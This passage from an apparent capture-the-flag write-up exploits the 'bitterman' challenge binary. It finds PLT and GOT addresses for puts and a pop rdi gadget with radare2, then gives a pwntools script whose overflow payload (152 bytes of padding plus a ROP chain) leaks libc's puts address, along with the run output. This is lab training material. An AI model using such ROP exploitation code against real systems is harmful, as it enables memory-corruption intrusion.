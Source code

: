 So, we get the address of **PLT** and **GOT** `puts` i.e. `0x400520` and `0x600c50` respectively.

##### The Gadget

For finding a gadget, I will use radare2's `/R < instruction >` command to find a `pop rdi; ret;` gadget.
```asm
[0x00400590]> /R pop rdi
  0x00400853                 5f  pop rdi
  0x00400854                 c3  ret
```

Let's copy the address i.e. `0x400853`.

Let's make the exploit:-

First off, we have `pop_rdi` gadget address and **PLT** and **GOT** `puts` address.

```py
from pwn import * # importing fuctions 
#context(terminal=['gnome-terminal','new-window']) Debug purpose
#context.log_level = 'DEBUG' # Debug purpose
p = process('./bitterman') # using bitterman elf # processing the target elf
#p = gdb.debug('./bitterman','b main') # breakpoint setup at main via gdb
plt_put = p64(0x400520) # PLT put address 
got_put = p64(0x600c50) # GOT put address
pop_rdi = p64(0x400853) # pop_rdi address

padding = "A"*152 # Because we know the offset from earlier

payload = padding +  pop_rdi + got_put + plt_put 

p.recvuntil("name?") # recieve data until we recieve the string
p.sendline("robin")  # send data 
p.recvuntil("message:") # recieve data until we recieve the string
p.sendline("1024") # send data 
p.recvuntil("text:") # recieve data until we recieve the string
p.sendline(payload) # send data
p.recvuntil("Thanks!") # recieve data until we recieve the string
leaked_puts = p.recv()[:8].strip().ljust(8,"\x00") # recieving the string until we get leaked address and padding with null bytes to length of 8
log.success("Leaked puts: %s" %(leaked_puts)) # Prints the leaked addresss
p.interactive() # keeps the shell interactive
```
This script pretty much explains everything with comments. So, let's see what we get after running this:-

```asm
[+] Starting local process './bitterman': pid 3117
[*] '/home/robin/ROP-Emporium/libc.so.6'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      PIE enabled
[+] Leaked puts: ��E\x92\x87\x7f\x00\x00
[*] Switching to interactive mode
```
